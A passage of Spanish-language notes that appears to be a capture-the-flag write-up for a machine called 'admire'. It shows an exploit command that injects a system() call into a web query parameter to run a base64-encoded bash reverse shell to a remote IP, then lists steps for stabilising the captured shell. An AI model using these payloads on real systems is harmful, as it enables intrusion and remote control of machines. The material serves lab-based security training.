 Como vemos por el puerto de escucha aparece una bash 

Ahora la ida es poner en el exploit esta cadena que hemos visto


```python
#recordar suistituir espacios por +
# no hemos dejado los espacios que solemos poner entre los |
# recordarq ue tienes que ejecutar desde el sitio donde tienes el exploit /maquinas/admire/exploits

python2 redirect.py -p 80 "http://localhost:4242/q?start=2000/10/21-00:00:00&end=2020/10/25-15:56:44&m=sum:http.stats.web.hits&o=&ylabel=&xrange=10:10&yrange=[33:system('echo+YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40OC80NDMgMD4mMScK|base64+-d|bash')]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json"
```

Vemos que de esta forma no escuchamos nada, así que miramos el ascci del + que es 2B y lo sustuituimos con el %delante

El problema viene creo porque dentro de la cadena ya hay + independientemente de los espacios por lo que esos espacios internos son los que cambiamos por 2B

```python
python2 redirect.py -p 80 "http://localhost:4242/q?start=2000/10/21-00:00:00&end=2020/10/25-15:56:44&m=sum:http.stats.web.hits&o=&ylabel=&xrange=10:10&yrange=[33:system('echo+YmFzaCAtYyAnYmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC40OC80NDMgMD4mMScK|base64+-d|bash')]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json"
```

Recordar que hay que volver a hacer los paso...

![](assets/2022-06-12-18-43-47.png)

Ya tenemos una consola operativa

# Preparación de la bash una vez detro del objetivo

Si ponemos tty miramos si estamos dentro. Si no hacemos estas cosas cuando hagamos control+c se nos va fuera, ademas que nos gustaría tener cierto dominio la bash

```bash
script /dev/null -c bash

#Con control+z dejamos de escuchar el puerto
stty raw -echo;fg     

# Con esto hemos conseguido reiniciar la configuración de la terminal en bash
reset xterm

#control l para limpiar no funciona pero porque puede valer diferente a xterm
export TERM=xterm

#miramos cuando vale la variable shell y hacemos que valga una bash

export SHELL=/bin/bash

#ver el número de columnas y filas
stty size

#poner el número de filas y columnas  como en mi pc 61 236
```